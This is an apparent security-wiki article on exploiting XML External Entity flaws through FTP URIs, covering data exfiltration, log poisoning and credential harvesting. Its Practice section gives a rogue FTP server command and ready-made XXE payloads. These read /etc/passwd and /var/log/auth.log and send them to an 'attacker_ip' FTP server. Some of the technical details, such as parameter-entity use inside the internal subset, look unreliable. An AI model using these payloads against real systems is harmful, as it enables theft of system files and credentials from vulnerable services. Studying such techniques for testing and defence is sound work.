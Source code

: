 ```yaml
---
title: Understanding FTP Protocol XXE Vulnerabilities
description: 'Explore FTP Protocol XXE risks: data exfiltration, log poisoning, credential
  harvesting.'
keywords:
- FTP XXE
- FTP protocol
- data exfiltration
- log poisoning
- credential harvesting
- XXE vulnerability
- XML External Entity
---
```


# FTP Protocol XXE

## Context

This article focuses on exploiting XML External Entity (XXE) vulnerabilities through the FTP protocol. The technique can be used for data exfiltration, log poisoning, and credential harvesting. To make the most of the content, you should have prior knowledge of XXE fundamentals, understand the basics of the FTP protocol, and be familiar with general protocol handler exploitation techniques.

## Theory

### FTP Protocol as an XXE Out-of-Band Channel

FTP Protocol XXE leverages FTP URIs in XML entities to trigger out-of-band interactions. This technique enables data exfiltration or causes side effects when the XML parser processes external entities referencing FTP URLs. The typical sequence is as follows: the attacker hosts an FTP server, crafts an XXE payload with an ftp:// URI, and then receives a connection and sensitive data from the vulnerable target.

### FTP XXE Data Exfiltration Mechanics

The vulnerability model for FTP XXE allows the leakage of sensitive files or environment variables via FTP commands. Data flow in this exploit involves the XML parser reading a file, embedding its content in FTP USER or PASS commands, and sending it to an attacker-controlled server.

```mermaid
graph TD;
A[Attacker crafts XXE with ftp://] --> B[Target XML parser processes entity];
B --> C[Parser connects to attacker's FTP server];
C --> D[Sensitive data sent in FTP commands];
D --> E[Attacker captures data];
```

### FTP Log Poisoning and Credential Harvesting via XXE

An implementation flaw in FTP servers can result in logs capturing injected data from XXE payloads, thus allowing log poisoning. Similarly, weaknesses in FTP protocol authentication prompts can be exploited to capture credentials or other arbitrary data.

### Passive vs. Active FTP XXE

In terms of enhancing the attack, Passive FTP XXE involves data being sent in the initial FTP connection via USER/PASS commands. Conversely, Active FTP XXE involves sending data via further FTP commands that may stage data retrieval or upload for deeper exfiltration.

## Practice

### FTP XXE Data Exfiltration via USER Command

This exploitation involves setting up a rogue FTP server to capture incoming credentials.

- **Set up a Rogue FTP Server:**
  - Initiate an attacker-controlled FTP server that logs USER/PASS commands.

    ```bash
    python3 -m pyftpdlib -p 2121
    ```

- **Craft and Deploy XXE Payload:**
  - Use the following XXE payload to exfiltrate the contents of `/etc/passwd` file via FTP:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121/%file;"><!ENTITY file SYSTEM "file:///etc/passwd">]><bar>&xxe;</bar>
    ```

  - Submit this payload to the vulnerable XML endpoint and monitor your FTP server for the exfiltrated data appearing in the USER command.

### FTP XXE Log Poisoning

This attack prepares the FTP server to log all incoming commands, including injected log file contents.

- **Prepare FTP Server:**
  - Ensure the server is ready to log commands.

- **Deploy XXE Log Injection Payload:**
  - Use this payload to inject contents from a log file into the FTP logs:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121/%payload;"><!ENTITY payload SYSTEM "file:///var/log/auth.log">]><bar>&xxe;</bar>
    ```

  - Submit the payload to the vulnerable XML endpoint and check the FTP server logs for the injected data.

### FTP XXE Credential Harvesting

This technique exploits FTP authentication for credential extraction.

- **Monitor for Authentication Attempts:**
  - Run an FTP server to capture any connection attempts and potential authentication data.

- **Trigger Authentication Attempts:**
  - Use the following XXE payload:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121">]><bar>&xxe;</bar>
    ```

  - Submit this payload via the vulnerable XML endpoint, and capture any authentication attempts or credentials from the FTP server logs.

## Tools

- **pyftpdlib**
- **tcpdump**
- **Wireshark** 

These tools are essential for setting up a rogue server, capturing network traffic, and analyzing protocol exchanges.